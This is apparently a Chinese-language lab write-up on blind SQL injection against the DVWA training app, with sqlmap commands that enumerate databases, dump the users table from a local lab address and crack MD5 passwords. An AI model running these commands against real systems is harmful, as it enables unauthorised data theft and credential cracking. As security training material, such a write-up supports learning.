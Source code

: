 ## SQL Injection (Blind)

當攻擊者執行SQL注入攻擊時，Server會response來自資料庫錯誤訊息，報告SQL語法不正確，SQL盲注入是指攻擊者進行攻擊時得不到有用報錯訊息，而是開發人員指定的通用介面。
但還是有辦法讓攻擊手透過一系列真假問題來竊取數據

解法：
使用 Sqlmap 攻擊

https://feifei.tw/security-tool-sqlmap/

使用SQLmap的基本步驟如下：

a. 識別目標URL
b. 分析目標網站的漏洞和資料庫結構
c. 使用不同的技術和參數進行注入測試
d. 通過dumping和爆破等方式獲取目標資料庫中的資料
e. 利用out-of-band連接等方式進一步擴大攻擊面
f. 創建報告並整理測試結果。

### Medium Level / Low Level 打法一樣

攔截

![alt text](image-3.png)

POST 打法

```
    ./sqlmap.py -u "http://10.0.2.15/dvwa/vulnerabilities/sqli_blind/" --cookie="security=medium; PHPSESSID=k1p4nef9t437n12dlf1ml2cspa" --data="id=1&Submit=Submit" -p id  --dbs
```


![alt text](image-2.png)
兩個DB    

```
./sqlmap.py -u "http://10.0.2.15/dvwa/vulnerabilities/sqli_blind/" --cookie="security=medium; PHPSESSID=k1p4nef9t437n12dlf1ml2cspa" --data="id=1&Submit=Submit" -p id  -D dvwa --tables --batch --threads 5
```
thread : 加快處理
batch : 掃描過程不要求使用者輸入
打出兩個資料表

![alt text](image-4.png)


```
    ./sqlmap.py -u "http://10.0.2.15/dvwa/vulnerabilities/sqli_blind/" --cookie="security=medium; PHPSESSID=k1p4nef9t437n12dlf1ml2cspa" --data="id=1&Submit=Submit" -p id  -D dvwa -T users --batch --threads 5 --dump

```

--dump : 顯示資料表內容

打出密碼(md5順便解密)

![alt text](image-5.png)